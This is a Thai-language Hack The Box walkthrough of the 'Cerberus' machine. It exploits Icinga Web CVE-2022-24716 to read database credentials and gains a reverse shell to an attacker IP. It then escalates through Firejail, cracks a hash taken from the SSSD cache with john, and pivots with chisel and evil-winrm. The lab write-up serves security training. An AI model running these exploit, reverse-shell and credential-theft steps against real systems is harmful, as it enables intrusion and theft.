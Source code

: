 ## Scan Host 

```bash
nmap -Pn -sCV -p- 10.10.11.205
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-14 12:57 +07
Nmap scan report for 10.10.11.205
Host is up (0.032s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Did not follow redirect to http://icinga.cerberus.local:8080/icingaweb2
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 162.89 seconds

```

ตวจสอบหน้า Website จะพบว่ามีการใช้ http://icinga.cerberus.local:8080/icingaweb2 

![[Challenge/HTB Challenge/Cerberus/IMG/001.png]]

จะเห็นได้ว่ามีการใช้งาน App ชื่อ icinga ซึ่งถ้าดูจะเป็นเวอร์ชัน 2 และมีช่องโหว่ที่ใช้ได้อยู่จำนวน 3  ช่องโหว่ตามภาพด้านล่าง 

![[Challenge/HTB Challenge/Cerberus/IMG/002.png]]

## Host Exploit 
เราสามารถใช้ช่องโหว่ Icinga Web 2.10 - Arbitrary File Disclosure ซึ่งเป้น CVE-2022-24716 
![[Challenge/HTB Challenge/Cerberus/IMG/003.png]]

หากตรวจสอบไฟล์ที่สำคัญของแอพดังกล่าวจะพบว่ามีไฟล์ที่สำคัญตามลิ้งนี้ https://icinga.com/docs/icinga-web/latest/doc/03-Configuration/ 

![[Challenge/HTB Challenge/Cerberus/IMG/004.png]]


จากนั้นลองตรวจสอบแต่ละไฟล์จะพบว่ามีข้อมูลสำคัญอยู่ภายใต้ resources.ini 
```python
python3 51329.py http://icinga.cerberus.local:8080/icingaweb2/ /etc/icingaweb2/resources.ini
[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0"
```


![[Challenge/HTB Challenge/Cerberus/IMG/005.png]]

## Exploit to Reverse shell using cve 
```python
python3 51586.py -u 'http://icinga.cerberus.local:8080' -U 'matthew' -P 'IcingaWebPassword2023'  -i '10.10.14.9'  -p 443
```


![[Challenge/HTB Challenge/Cerberus/IMG/006.png]]
![[Challenge/HTB Challenge/Cerberus/IMG/007.png]]


## Priv Escalation 

```bash
find / -type f -perm -u=s -ls 2>/dev/null
```

![[Challenge/HTB Challenge/Cerberus/IMG/008.png]]

Firejail Local Privilege Escalation 
https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25


```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
chmod +x fire.py
./fire.py
```

![[Challenge/HTB Challenge/Cerberus/IMG/009.png]]

จากนั้นเปิดอีก terminal เพื่อรันสิทธิ ROOT

```bash
su -
```

**System Security Services Daemon (SSSD)** เป็นบริการระบบความปลอดภัยที่ออกแบบมาเพื่อช่วยให้ระบบ Linux สามารถ **เข้าถึงข้อมูลผู้ใช้และข้อมูลการรับรองตัวตนจากระบบจัดการผู้ใช้แบบรวมศูนย์ (centralized authentication systems)** โดยฟีเจอร์ที่น่าจะมีช่องโหว่ของ SSSD คือ**การแคชข้อมูลผู้ใช้และกลุ่ม (User and Group Caching):** - เก็บข้อมูลผู้ใช้และกลุ่มไว้ในเครื่องเพื่อให้สามารถเข้าสู่ระบบได้แม้เมื่อเซิร์ฟเวอร์ต้นทางไม่ว่างหรือขาดการเชื่อมต่อ โดยเก็บไว้อยู่ภายใต้ path 

```bash
/var/lib/sss/db/
```

เราสามารถตรวจสอบไฟล์แต่ละไฟล์ซึ่งเป็น Cache ของ sssd ซึ่งภายใต้ไฟล์ cache_cerberus.local.ldb เราตรวจพบข้อมูลที่มีความน่าสนใจ ซึ่งเป็นค่า hash ของระบบ

![[Challenge/HTB Challenge/Cerberus/IMG/010.png]]


```bash
echo '$6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU3FZ3.GQ.4N6bb9pxE3t3T0' > hash

john hash  --wordlist=/usr/share/wordlists/rockyou.txt 
```

![[Challenge/HTB Challenge/Cerberus/IMG/012.png]]

จากภาพเราจะได้รหัสผ่านดังต่อไปนี้ 
```bash
matthew:147258369
```


## Privot 

ติดตั้ง Ligolo 

```bash
chisel server --port 1111 --reverse # Attacker host
./chisel client 10.10.14.9:1111 R:5985:172.16.22.1:5985 # Victim host
```

![[Challenge/HTB Challenge/Cerberus/IMG/013.png]]

จะเห็นได้ว่า user ดังกล่าวสามารถใช้บน winrm ได้ จากนั้นรัน 

```bash
evil-winrm -i 127.0.0.1 -u matthew -p '147258369'
```

จากนั้นทำการ Forward Port ของ ManageEngine ไปที่ port 9251 
```
./chisel server --port 2222 --reverse # Attacker host

.\chisel.exe client 10.10.14.9:2222 R:socks # Victom host
```



